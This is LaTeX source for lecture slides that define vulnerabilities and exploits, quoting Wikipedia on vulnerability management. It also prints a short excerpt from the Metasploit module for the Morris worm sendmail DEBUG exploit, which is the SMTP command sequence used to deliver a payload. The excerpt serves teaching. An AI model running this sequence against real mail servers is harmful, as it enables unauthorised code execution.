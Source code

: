 \documentclass[Screen16to9,17pt]{foils}
\begin{document}

Very realistic:  and 

\begin{list2}
\item \emph{Vulnerability} or security \emph{flaw} -- exploiting the vulnerability happens by an attacker
\item A program or script used for this is called an \emph{exploit}
\end{list2}



\begin{quote}
Vulnerabilities are {\bf flaws} in a computer system that weaken the overall security of the system.

{\bf Despite intentions to achieve complete correctness, virtually all hardware and software contains bugs where the system does not behave as expected.} If the bug could enable an attacker to compromise the confidentiality, integrity, or availability of system resources, it is called a vulnerability. Insecure software development practices as well as design factors such as complexity can increase the burden of vulnerabilities. There are different types most common in different components such as hardware, operating systems, and applications.

{\bf Vulnerability management} is a process that includes identifying systems and prioritizing which are most important, scanning for vulnerabilities, and taking action to secure the system. Vulnerability management typically is a combination of remediation (fixing the vulnerability), mitigation (increasing the difficulty or reducing the danger of exploits), and accepting risks that are not economical or practical to eliminate.
\end{quote}
Source: \url{https://en.wikipedia.org/wiki/Vulnerability_(computer_security)}

Included this specifically because I agree \emph{virtually all hardware and software contains bugs}


\begin{verbatim}
    sploit = {
      nil                   => /220.*Sendmail/,
      'DEBUG'               => /200 Debug set/,
      "MAIL FROM:<#{from}>" => /250.*Sender ok/,
      "RCPT TO:<#{to}>"     => /250.*Recipient ok/,
      'DATA'                => /354 Enter mail.*itself/,
      # Indent PATH= so it's not interpreted as a mail header
      " PATH=#{path}"       => nil,
      'export PATH'         => nil,
      payload.encoded       => nil,
      '.'                   => /250 Ok/,
      'QUIT'                => /221.*closing connection/
    }
\end{verbatim}
Source: {\footnotesize\url{https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/smtp/morris_sendmail_debug.rb}}
\end{document}
